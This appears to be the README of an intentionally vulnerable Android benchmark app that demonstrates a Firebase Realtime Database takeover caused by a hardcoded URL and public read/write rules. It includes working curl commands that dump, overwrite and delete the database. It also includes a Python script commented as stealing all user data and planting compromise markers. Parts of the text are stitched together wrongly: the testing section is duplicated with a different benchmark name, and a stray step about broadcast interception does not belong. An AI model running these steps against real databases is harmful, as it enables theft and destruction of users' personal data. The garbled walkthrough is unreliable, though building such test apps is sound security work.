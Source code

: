 # oxo-android-ben58: Firebase Database Takeover

## Vulnerability Overview

Firebase Database Takeover occurs when Android applications expose Firebase Realtime Database URLs in their resources without proper security rules, allowing unauthorized public access to read and write sensitive data. This vulnerability enables complete database compromise through misconfigured Firebase access controls.

## Attack Vector: Misconfigured Firebase Database Access

**Brief Explanation**: A fitness tracking app that hardcodes Firebase database URLs in `strings.xml` with overly permissive security rules, allowing any attacker to directly access the database via HTTP requests without authentication, enabling complete data theft and manipulation.

**Key Characteristics:**
- Hardcoded Firebase database URL exposed in app resources
- Misconfigured security rules allowing public read/write access
- No authentication required to access sensitive user data
- Complete database takeover possible via simple HTTP requests

**Vulnerable Code Pattern:**
```xml
<!-- res/values/strings.xml - VULNERABLE: Exposed Firebase URL -->
<string name="firebase_database_url">https://fittracker-sync-backend-default-rtdb.firebaseio.com</string>
```

```kotlin
// VULNERABLE: Using hardcoded Firebase URL without proper security
val database = FirebaseDatabase.getInstance("https://fittracker-sync-backend-default-rtdb.firebaseio.com")
val usersRef = database.getReference("users")
usersRef.setValue(userData)  // VULNERABLE - Public write access!
```

```json
// VULNERABLE: Overly permissive Firebase security rules
{
  "rules": {
    ".read": true,
    ".write": true
  }
}
```

## Testing

### Step 1: Install and Launch FitTracker Pro
```bash
# Install the vulnerable fitness app
adb install -r /path/to/oxo-android-ben55/src/app/build/outputs/apk/debug/app-debug.apk

# Launch the app
adb shell am start -n co.ostorlab.myapplication/.MainActivity
```

## Testing

### Step 1: Install and Launch FitTracker Pro
```bash
# Install the vulnerable fitness app
adb install -r /path/to/oxo-android-ben58/src/app/build/outputs/apk/debug/app-debug.apk

# Launch the app
adb shell am start -n co.ostorlab.myapplication/.MainActivity
```

### Step 2: Extract Firebase Database URL
```bash
# Method 1: Extract from APK resources
aapt dump strings app-debug.apk | grep firebase

# Method 2: Decompile APK and check strings.xml
apktool d app-debug.apk
cat app-debug/res/values/strings.xml | grep firebase_database_url
```

### Step 3: Test Database Access
```bash
# Test public read access - view all data
curl "https://fittracker-sync-backend-default-rtdb.firebaseio.com/.json"

# Test public write access - modify data
curl -X PUT "https://fittracker-sync-backend-default-rtdb.firebaseio.com/exploit.json" 
  -d '{"message": "Database Compromised", "hacker": "Security Tester", "timestamp": "2025-08-28"}'

# Test data deletion - remove data
curl -X DELETE "https://fittracker-sync-backend-default-rtdb.firebaseio.com/users.json"
```

### Step 4: Verify Database Takeover
```bash
# Verify exploit was successful
curl "https://fittracker-sync-backend-default-rtdb.firebaseio.com/exploit.json"
```

### Step 3: Verify Network Data Interception
```bash
# Check broadcast history for intercepted network data
adb shell dumpsys activity broadcasts | sed -n '/Historical broadcasts summary/,/^$/p' | grep -A 5 "com.fittracker"
```

### Expected Results:
```json
{
  "users": {
    "user_001": {
      "name": "John Fitness",
      "email": "john@email.com",
      "password": "mySecretPass123",
      "workouts": [
        {"type": "running", "duration": 45, "calories": 320},
        {"type": "cycling", "duration": 60, "calories": 480}
      ],
      "personal_data": {
        "age": 28,
        "weight": 75,
        "height": 180,
        "medical_conditions": "None"
      }
    }
  },
  "device_data": {
    "device_001": {
      "mac_address": "AA:BB:CC:DD:EE:FF",
      "last_sync": "2025-08-28T10:30:00Z",
      "location": "40.7128,-74.0060"
    }
  },
  "exploit": {
    "message": "Database Compromised",
    "hacker": "Security Tester",
    "timestamp": "2025-08-28"
  }
}
```

## Impact Assessment
- **Confidentiality**: Critical - Complete exposure of user data, credentials, and personal information
- **Integrity**: Critical - Attackers can modify, delete, or corrupt all database content
- **Availability**: High - Database can be wiped or corrupted, causing service disruption
- **OWASP Mobile Top 10**: M2 - Insecure Data Storage, M4 - Insecure Communication, M10 - Extraneous Functionality
- **CWE**: CWE-200 (Information Exposure), CWE-522 (Insufficiently Protected Credentials), CWE-284 (Improper Access Control)

## Firebase Database Takeover Attack

An attacker can compromise the database through:

**Step 1: URL Discovery**
```bash
# Extract Firebase URL from APK
strings app-debug.apk | grep firebaseio.com
```

**Step 2: Database Reconnaissance**  
```bash
# Discover database structure
curl "https://fittracker-sync-backend-default-rtdb.firebaseio.com/.json?shallow=true"
```

**Step 3: Data Exfiltration**
```python
import requests

# Steal all user data
response = requests.get("https://fittracker-sync-backend-default-rtdb.firebaseio.com/users.json")
user_data = response.json()
print("Stolen user credentials:", user_data)
```

**Step 4: Data Manipulation**
```python
# Plant malicious data
malicious_data = {
    "exploit": "Database Compromised",
    "stolen_users": len(user_data),
    "timestamp": "2025-08-28T10:30:00Z"
}
requests.put("https://fittracker-sync-backend-default-rtdb.firebaseio.com/compromise.json", 
             json=malicious_data)
```

**Step 5: Data Destruction**
```bash
# Delete critical data
curl -X DELETE "https://fittracker-sync-backend-default-rtdb.firebaseio.com/users.json"
```

**Difficulty**: Easy - No authentication or special tools required

## Real-World Attack Scenarios

1. **Complete User Data Theft**: Access to fitness profiles, personal metrics, email addresses, and potentially passwords
2. **Corporate Espionage**: Stealing employee fitness data from corporate wellness programs  
3. **Identity Theft**: Using personal information for social engineering attacks
4. **Data Ransom**: Threatening to leak sensitive health data unless ransom is paid
5. **Competitive Intelligence**: Analyzing competitor's user base and usage patterns

**Example Attack Flow:**
```bash
# 1. Download target fitness app
# 2. Extract Firebase URL from APK resources  
# 3. Access database via direct HTTP requests
# 4. Exfiltrate all user data and personal information
# 5. Plant evidence of compromise or delete data
```

This vulnerability demonstrates how hardcoded Firebase URLs combined with misconfigured security rules can lead to complete database compromise without any authentication requirements.
